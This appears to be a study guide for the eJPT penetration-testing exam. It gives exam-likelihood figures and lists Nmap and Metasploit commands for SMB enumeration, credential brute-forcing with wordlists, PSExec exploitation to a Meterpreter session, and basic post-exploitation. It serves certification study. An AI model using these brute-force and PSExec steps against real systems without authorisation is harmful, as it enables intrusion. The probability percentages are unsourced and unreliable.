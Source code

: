 ### **📊 How Important This Is:**
Understanding importance levels for eJPT exam success:

- **SMB enumeration and scanning** - 85% probability in exam
- **Metasploit framework usage** - 90% probability in exam  
- **Credential attacks and brute-forcing** - 75% probability in exam
- **Post-exploitation techniques** - 80% probability in exam

### **🏆 Commands You Must Know for eJPT:**

#### **Level 1 - Essential (You WILL see this):**
```bash
# Nmap SMB discovery - FUNDAMENTAL SKILL
nmap -p445 --script smb-protocols target
# Expected: SMB protocol version information

# Metasploit credential attack - CORE TECHNIQUE  
use auxiliary/scanner/smb/smb_login
set RHOSTS target
set USER_FILE /usr/share/wordlists/users.txt
set PASS_FILE /usr/share/wordlists/passwords.txt
exploit
# Expected: Valid credential discovery

# PSExec exploitation - CRITICAL SKILL
use exploit/windows/smb/psexec
set RHOSTS target
set SMBUser username  
set SMBPass password
exploit
# Expected: Meterpreter session establishment
```

#### **Level 2 - Important (Good chance you'll see this):**
```bash
# SMB share enumeration - INFORMATION GATHERING
nmap --script smb-enum-shares target
# Expected: Available share listing

# Version detection - SERVICE FINGERPRINTING
use auxiliary/scanner/smb/smb_version
set RHOSTS target
exploit
# Expected: SMB version and OS information

# Session interaction - POST-EXPLOITATION
shell
whoami
systeminfo
# Expected: System information and user context
```

